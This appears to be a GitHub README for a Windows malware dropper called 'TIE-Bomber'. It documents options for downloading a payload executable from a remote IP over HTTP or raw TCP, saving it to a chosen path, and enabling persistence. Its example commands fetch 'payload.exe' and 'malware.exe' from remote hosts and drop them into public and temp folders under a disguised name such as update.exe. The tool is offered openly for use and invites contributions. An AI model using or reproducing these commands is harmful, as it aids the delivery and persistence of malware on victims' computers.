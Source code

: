 # TIE-Bomber Dropper

![img](TIE-Bombers.gif)

## Usage

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
dropper.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
dropper.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
dropper.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
